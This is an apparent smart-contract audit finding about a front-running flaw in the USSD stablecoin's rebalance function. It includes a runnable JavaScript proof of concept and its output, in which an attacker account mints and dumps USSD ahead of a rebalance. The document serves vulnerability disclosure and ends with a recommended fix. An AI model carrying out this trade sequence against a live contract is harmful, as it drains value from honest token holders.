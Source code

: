 kie

medium

# Front-running vulnerability due to overcorrection in rebalance function

## Summary

The `rebalance` function in the USSD contract constantly oscillates between overshooting and undershooting the peg, making it highly susceptible to front-running attacks. This is due to the nature of how the rebalancer sells and mints USSD tokens in peg-up and peg-down scenarios, respectively.

## Vulnerability Detail

During a peg-up scenario, the rebalancer aims to sell half of the difference between the USSD amount and the DAI amount in the UniswapV3Pool. This process burns the USSD and increases its value. However, it also sets up a situation where the USSD is worth more than DAI. 

During a peg-down scenario, the rebalancer mints half of the difference between the USSD amount and the DAI amount in the UniswapV3Pool. This increases the total supply of USSD and decreases its value. The value of USSD oscillates with each rebalancing, creating opportunities for front-running attacks.

## Impact

The potential for front-running can destabilize the contract's valuation and create undue opportunities for exploitation by malicious actors. This could lead to a loss of trust in the system and potential financial loss for honest users.

## POC

```js
describe('POC 4', function () {
    it('Front-running vulnerability due to overcorrection in rebalance function', async function () {
        console.log('Some user swapps DAI for USSD -> USSD value goes up')
        await uniswapExactWethForDai(this, web3.utils.toWei('10', 'ether'), user);
        let userDaiBalance = web3.utils.toBN(await this.DAI.methods.balanceOf(user).call());
        await uniswapExactDaiForUssd(this, userDaiBalance.toString(), user);

        console.log('Frontrunning attacker sees rebalance call in mempool and checks valuation')
        let currentValuation = await this.rebalancer.getOwnValuation()
        console.log('USSD valuation', currentValuation.toString());

        console.log('Frontrunning attacker uses high USSD price to swap all USSD for DAI')

        await uniswapExactWethForDai(this, web3.utils.toWei('10', 'ether'), attacker);
        let attackerDaiBalance = web3.utils.toBN(await this.DAI.methods.balanceOf(attacker).call());
        await this.DAI.methods.approve(this.USSD.address, attackerDaiBalance).send({ from: attacker });
        console.log(`Attacker got 10 ETH worth of DAI: ${attackerDaiBalance.toString()} DAI`);

        await this.USSD.mintForToken(this.DAI.options.address, attackerDaiBalance, attacker, { from: attacker });
        let attackerUssdBalance = web3.utils.toBN(await this.USSD.balanceOf(attacker));
        console.log(`Attacker mints USSD for DAI: ${attackerUssdBalance} USSD`);

        await uniswapExactUssdForDai(this, attackerUssdBalance.toString(), attacker);
        console.log(`Attacker sells all USSD for ${await this.DAI.methods.balanceOf(attacker).call()} DAI`);

        currentValuation = await this.rebalancer.getOwnValuation()
        console.log('USSD valuation', currentValuation.toString());

        console.log('USSD value droped. Rebalancing ...');
        await this.rebalancer.rebalance({ from: owner });

        currentValuation = await this.rebalancer.getOwnValuation()
        console.log('USSD valuation now again overvalued:', currentValuation.toString());
    });
});
```

POC output:
```text
Some user swapps DAI for USSD -> USSD value goes up
Frontrunning attacker sees rebalance call in mempool and checks valuation
USSD valuation 7961403
Frontrunning attacker uses high USSD price to swap all USSD for DAI
Attacker got 1) ETH worth of DAI: 18208370544223102859730 DAI
Attacker mints USSD for DAI: 18208370544 USSD
Attacker sells all USSD for 23616790390920930516284 DAI
USSD valuation 211517
USSD value droped. Rebalancing ...
USSD valuation now again overvalued: 1711197
```

The full and runnable POC can be found here: https://gist.github.com/thekie/4ae280c54c5045089ced02539abef45b

## Code Snippet

https://github.com/sherlock-audit/2023-05-USSD/blob/main/ussd-contracts/contracts/USSDRebalancer.sol#L92-L107

## Tool used

Manual Review

## Recommendation

Consider adjusting the `rebalance` function to reduce the risk of front-running. One possible approach could be to implement a time delay or slippage tolerance in the rebalancing function, ensuring that the rebalance does not over-correct and subsequently provide an exploitable opportunity.